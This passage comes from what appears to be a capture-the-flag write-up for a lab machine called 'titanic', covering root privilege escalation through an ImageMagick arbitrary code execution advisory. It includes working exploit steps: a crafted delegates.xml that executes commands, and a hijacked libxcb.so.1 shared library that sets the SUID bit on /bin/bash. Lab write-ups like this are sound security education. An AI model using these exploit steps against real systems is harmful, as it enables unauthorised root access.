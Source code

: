 ```c
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

## Privilege Escalation to root

### ImageMagick Arbitrary Code Execution

The script we found made use of a tool called `ImageMagick`. Our new member `jinmay` came up with a `advisory` for `ImageMagick` about an `Arbitrary Code Execution` vulnerability.

```c
developer@titanic:/opt/scripts$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

- [https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

We performed a quick test to confirm that it would actually work.

```c
developer@titanic:/opt/app/static/assets/images$ cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

```c
developer@titanic:/opt/app/static/assets/images$ magick ./delegates.xml ./out.png 2>/dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

And as last step we modified the `Proof of Concept (PoC)` to our needs and ran it.

```c
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```
